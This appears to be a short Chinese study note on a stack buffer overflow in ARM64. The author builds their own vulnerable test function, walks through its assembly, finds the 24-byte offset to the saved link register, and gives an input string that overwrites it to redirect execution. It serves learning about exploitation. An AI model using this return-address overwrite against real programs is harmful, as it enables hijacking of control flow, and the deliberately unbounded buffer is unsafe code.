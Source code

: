 # 栈溢出攻击

通过覆盖 stack 里的 lr 改变 函数的调用返回
./main
0123456789abcdef01234567|(another function vaddr)

|(需要重定向的返回函数地址)

## 我写的测试靶子

void normal_call()
{
    char buff[0x10] = {0};
    attack(buff);
    printf("%s is over ...\n", __FUNCTION__);
}
分析对应的汇编代码
normal_call:                            // @normal_call
    .cfi_startproc
    // %bb.0:
    sub sp, sp, #32
    stp x29, x30, [sp, #16]             // 16-byte Folded Spill
    add x29, sp, #16
    .cfi_def_cfa w29, 16
    .cfi_offset w30, -8
    .cfi_offset w29, -16
    mov x0, sp
    str xzr, [sp]
    str xzr, [sp, #8]
    bl attack
    adrp x0, .L.str.6
    add x0, x0, :lo12:.L.str.6
    adrp x1, .L__FUNCTION__.normal_call
    add x1, x1, :lo12:.L__FUNCTION__.normal_call
    bl printf
    ldp x29, x30, [sp, #16]             // 16-byte Folded Reload
    add sp, sp, #32
    ret

发现 buff 在栈中的位置 和 x30 相差 24 个字节
0123456789abcdef01234567|5cacacea34
这行输入的前16个字节是放到 buff 数据里, | 后的输入会转换成机器码覆盖 x30 的值
